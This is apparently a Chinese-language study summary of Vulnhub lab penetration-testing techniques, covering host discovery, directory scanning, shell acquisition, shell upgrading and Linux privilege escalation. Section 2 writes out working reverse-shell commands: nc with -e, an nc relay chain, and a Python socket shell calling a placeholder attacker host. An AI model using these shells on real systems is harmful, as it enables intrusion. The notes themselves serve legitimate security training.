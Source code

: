 ```yaml
---
title: Conclusion1_Chapter1~5
categories:
- Network_Security
- Vulnhub
- Conclusion
tags:
- Network_Security
- Vulnhub
date: 2024-01-29 14:24:58
---
```


# 总结（Chapter 1-5）

## 1. 外围探测与扫描

### 1.1 主机发现

1. arp-scan，基于 arp

2. arping
    虽然它是 Linux 发行版常见的工具，但注意其并不支持网段的扫描，需要结合 Shell 脚本语言使用，例子：

    ```bash
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

3. netdiscover，也是基于 arp 的工具，实际使用时，掩码需要 -8：
    `sudo netdiscover -r 网段/实际掩码 - 8`

4. nmap

### 1.2 目录扫描

1. dirsearch 轻量级。
2. feroxbuster 结合 seclists 来进行大规模的目录扫描。

## 2. Shell 的获取

### 2.1 通过 NC

1. 查看是否有 NC：`which nc`。
2. 高版本 NC 反弹 Shell：
    `nc kali-ip kali-端口 -e /bin/sh`
3. 低版本 NC 串联：
    `nc kali-ip kali-端口-1 | /bin/bash | /bin/nc kali-ip kali-端口-2 # nc 串联，使用 | 将结果向后传递。`

### 2.2 通过其他途径

1. python：
    ```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('kali-ip', kali-端口))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(['/bin/sh','-i'])
    ```

    如果是命令，就需要 `python -c "上述代码"`。注意单双引号。

2. 修改源代码，上线 WebShell 工具。

### 2.3 交互性的增加

1. 初步增加：
    `python -c "import pty; pty.spawn('/bin/bash')"`

2. 完全的即时交互：

    > https://www.endlessshw.top/2024/01/23/Network_Security/Vulnhub_Journey/Chapter4_Medium_AdmX_New/Chapter4_Medium_AdmX_New/#1-2-%E6%8B%BF%E5%88%B0-Shell-%E4%B8%8E-Shell-%E4%BF%9D%E6%8C%81

## 3. 提权

### 3.1 内核提权

1. 查看内核相关信息：
    ```bash
    uname -a # 查看内核
    lsb_release -a # 查看 OS 版本
    ```

2. `search Linux 版本` 寻找 EXP。

3. CVE-2021-3493

### 3.2 suid 提权

1. 先找权限是 S 的文件。
2. 查看其文件，分析源代码，尝试构造出提权命令。

### 3.3 sudo 提权

1. 先从常见的工具入手，是否可以 sudo 提权

2. `sudo -l` 查看当前用户可以通过 `sudo` 使用的命令和工具，通过具体的工具和命令进行提权：

    > https://ihsansencan.github.io/privilege-escalation/linux/binaries/
    >
    > https://haiclover.github.io/gtfobins/node/
    >
    > 学会使用谷歌，好多东西中文互联网未必搜得到。

### 3.4 其他较为通用的提权方式

1. lxd 提权
2. MySQL UDF 提权

## 4. 一些杂项和思想

1. Burpsuite 可以一次性修改发送包和接受包的某些内容（通过正则匹配）。
2. cyberchef 工具用于加解密。
3. 密码交叉复用的思想！
4. Venom 内网穿透工具。
5. PWN 要学，GDB 调试工具的使用，Python 的 `struct` 包。
6. exp 要学会查看，视具体报错情况还得修改。
7. docker 容器的判断。